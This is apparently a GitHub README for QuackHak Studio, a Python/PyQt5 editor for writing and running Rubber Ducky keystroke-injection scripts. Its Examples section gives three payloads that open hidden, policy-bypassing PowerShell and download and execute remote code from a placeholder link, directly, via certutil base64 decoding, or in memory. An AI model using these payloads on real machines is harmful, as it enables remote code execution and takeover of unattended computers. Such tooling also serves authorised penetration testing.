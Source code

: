 # QuackHak Studio

QuackHak Studio is an Integrated Development Environment (IDE) for Rubber Ducky scripts. It provides a user-friendly interface for creating and editing Rubber Ducky scripts, making it easier to write and test your payloads. With QuackHak Studio, you can write, save, and execute your Rubber Ducky scripts with ease.

## Features

- **Syntax Highlighting**: QuackHak Studio provides syntax highlighting for Rubber Ducky scripts, making it easier to identify different commands and keywords.

- **Code Execution**: You can execute your Rubber Ducky scripts directly from the IDE, allowing you to test your payloads quickly.

- **Undo/Redo**: QuackHak Studio supports undo and redo actions, making it easy to revert changes or redo previous actions.

- **Code Coloring**: The IDE colorizes different parts of the code for better readability, helping you identify commands, comments, and more.

- **Code Templates**: QuackHak Studio offers pre-defined code templates for common Rubber Ducky payloads, making it convenient to get started with scripting.

## Getting Started

1. Download and install Python if you haven't already. You can download it from the [Python website](https://www.python.org/downloads/).

2. Clone this repository or download the `quackhak.py` script.

3. Install the required dependencies using the following command:

   ```bash
   pip install PyQt5
   ```

4. Run the QuackHak Studio script using the following command:

   ```bash
   python quackhak.py
   ```

5. Start writing your Rubber Ducky scripts in the QuackHak Studio IDE.

## Usage

- **File Menu**: The File menu allows you to open, save, and save your scripts with different options.

- **Edit Menu**: The Edit menu provides options for undoing and redoing actions.

- **Tools Menu**: Access useful tools like URL shortener and GitHub directly from the IDE.

- **Run Menu**: Run your Rubber Ducky scripts directly from the IDE or execute PowerShell scripts.

## Examples

### Basic Rubber Ducky Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass irm LINK|iex;FUNCTION
DELAY 500
ENTER
```

### Base64 Encoded Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass irm LINK -O $env:USERPROFILE\e.txt;certutil -f -decode $env:USERPROFILE\e.txt $env:USERPROFILE\d.ps1;iex $env:USERPROFILE\d.ps1
DELAY 500
ENTER
```

### Memory Execution Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass &([scriptblock]::Create([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm LINK)))))
DELAY 500
ENTER
```


## Author

QuackHak Studio is developed by [CaliNux](https://github.com/calinux-py).

## Acknowledgments

- Special thanks to I_am_Jakoby & Redd <3

Feel free to contribute to this project and help improve QuackHak Studio for Rubber Ducky enthusiasts. 
